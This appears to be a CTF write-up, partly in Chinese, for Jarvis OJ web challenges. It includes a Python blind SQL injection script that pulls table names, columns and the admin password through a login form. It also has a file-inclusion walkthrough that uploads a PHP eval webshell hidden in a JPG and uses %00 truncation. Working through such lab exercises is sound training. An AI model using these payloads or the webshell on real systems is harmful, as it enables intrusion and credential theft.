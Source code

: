 ```bash
#coding:utf-8
import requests
import string
payloads=string.printable
url = 'http://web.jarvisoj.com:32787/login.php'
#ye= "'/**/or/**/if(substring((select/**/database())/**/from/**/%s/**/for/**/1)='%s',0,1)/**/and/**/'1'='1"
#ye= "'/**/or/**/if(substring((select/**/group_concat(table_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database())/**/from/**/%s/**/for/**/1)='%s',0,1)/**/and/**/'1'='1"
ye = "'/**/or/**/if(substring((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='admin')/**/from/**/%s/**/for/**/1)='%s',0,1)/**/and/**/'1'='1"
#ye = "'/**/or/**/if(substring((select/**/password/**/from/**/admin)/**/from/**/%s/**/for/**/1)='%s',0,1)/**/and/**/'1'='1"
def exp(i,x):
	data={'username':ye%(i,x),'password':'123'}
	response = requests.post(url,data = data)
	if response.text.find('用户名错误')>0:
		return 1
	else :
		return 0
ans=''
print('start')
for i in range(1,100):
	for x in payloads:
		if exp(i,x)==1:
			ans+=x
			print(ans)
			break

```
# Easy Gallery

```bash
http://web.jarvisoj.com:32785/index.php?page=submit
http://web.jarvisoj.com:32785/index.php?page=view
```
从以上连接猜测是文件包含
在submit中上传一张一句话木马jpg图片，然后在view页面中找到，该图片的地址。访问
```bash
http://web.jarvisoj.com:32785/index.php?page=uploads/1520757670.jpg
```
显示打开失败，从报错消息中得知，查询时，给图片加上php后缀。
```bash
 fopen(uploads/1520757670.jpg.php): failed to open stream: No such file or directory in /opt/lampp/htdocs/index.php on line 24
No such file!
```
%00截断，得到flag，一开始只是上传一张图片，没有flag，上传有一句话的图片，才得到flag，搞不到为什么？
```bash
http://web.jarvisoj.com:32785/index.php?page=uploads/1520757670.jpg%00
```
ps:一句话图片可以用edjpgcom制作，一句话为
```bash
<script language="php">@eval($_POST['Qianye']);</script>
```
# Chopper

